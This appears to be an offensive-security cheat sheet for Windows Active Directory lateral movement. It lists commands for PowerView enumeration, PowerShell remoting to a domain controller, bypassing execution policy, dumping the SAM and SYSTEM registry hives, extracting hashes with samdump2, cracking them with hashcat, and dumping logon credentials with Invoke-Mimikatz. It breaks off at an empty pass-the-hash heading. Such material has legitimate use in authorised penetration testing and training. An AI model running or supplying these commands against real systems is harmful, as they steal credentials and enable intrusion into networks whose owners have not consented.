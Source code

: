 # Lateral Movement

## Using PowerView

> Don't forget to import the script bypassing powershell execution policy

To test if you have an admin access on the current machine:

 ```powershell
 Test-AdminAccess -Verbose
 ```

To see what srevers you have access to:
 
 
 ```powershell
 Find-DomainUserLocation
 ```

 ```powershell
 Invoke-Command -ComputerName dc -ScriptBlock{whoami /groups; hostname}
 ```
  Using PowerShell Remoting
  
  ```powershell
  Enter-PSSession -ComputerName dc
  ```
  
  ## After Getting Local Admin Access...
  
 
 ### Dumping SAM\SYSTEM files for offline cracking:
 
  > C:\Windows\System32\config\SAM


 > C:\Windows\System32\config\SYSTEM

Copying the files to the current directory:

 ```batch
 reg save HKLM\sam sam
 
 reg save HKLM\system system
 ```
 
 On Kali Linux use the `samdump2` tool:
 
 ```bash
 samdump2 system sam
 ```
 
 Take the hashes and crack them with hashcat:
 
 ```bash
 hashcat -D 2 -m 1000 hashes.txt rockyou.txt -r OneRuleToRuleThemAll.rule
 ```
 
 ### SAM and LSA w/ mimikatz
 
 ```powershell
 powershell -ep bypass
 
 . .\invoke-mimikatz.ps1
 
 Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords' "lsadump::sam" "exit"'
  ```
 Copy the NTLM of the users 😈
 
 ### PASS the HASH
